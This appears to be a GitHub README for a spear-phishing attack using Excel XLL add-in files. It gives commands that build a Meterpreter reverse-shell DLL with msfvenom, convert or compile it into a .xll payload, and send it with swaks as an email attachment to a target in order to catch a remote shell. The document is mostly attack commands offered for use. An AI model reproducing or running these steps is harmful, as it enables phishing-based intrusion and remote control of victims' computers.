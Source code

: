 # Spear Phish with XLL file

## STEPS:

 - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=MY_IP LPORT=MY_PORT -f dll > pwn.dll (Create a .dll file)

## Then convert that .dll file to .xll with a python script (Will provide the script in this folder)

 - python3 dll2xll.py (DON'T FORGET TO EDIT THE SCRIPT WITHIN TO INSERT YOUR FILE YOU WANT TO TARGET)

 - swaks --to TARGET@DOMAIN.LOCAL --from MYSELF@TESTMAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --attach @pwn.xll --server TARGET_IP --port 25 (Send the malicious file to our target to catch the reverse shell)

 
## ALTERNATE METHOD WITHOUT METASPLOIT

### Take the xllexploit.c script within this folder and edit the script accordingly

 - x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll xllexploit.c -luser32 (Compile the xllexploit.c file to an .xll file. Make sure you set the right command within the .c file!)

 - swaks --to TARGET@DOMAIN.LOCAL --from MYSELF@TESTMAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --attach @shell.xll --server TARGET_IP --port 25 (Send the malicious file to our target to catch the reverse shell)
